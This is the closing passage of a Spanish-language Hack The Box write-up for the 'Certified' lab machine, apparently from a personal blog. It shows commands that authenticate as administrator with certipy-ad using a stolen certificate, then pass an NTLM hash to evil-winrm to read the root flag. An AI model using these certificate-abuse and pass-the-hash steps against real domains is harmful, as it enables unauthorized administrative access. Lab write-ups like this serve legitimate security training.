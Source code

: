 ```terminal
/home/kali/Documents/htb/machines/certified:-$ sudo ntpdate 10.10.11.41

/home/kali/Documents/htb/machines/certified:-$ sudo certipy-ad auth -pfx administrator.pfx -domain certified.htb
```

![](assets/img/htb-writeup-certified/certified4_4.png)

Procedo a autenticarme a través de Evil-WinRM y consigo la flag.

```terminal
/home/kali/Documents/htb/machines/certified:-$ evil-winrm -i certified.htb -u administrator -H "0d5b49608bbce1751f708748f67e2d34"

*Evil-WinRM* PS C:\Users\Administrator> type Desktop/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/633" target="_blank">***Litio7 has successfully solved Certified from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
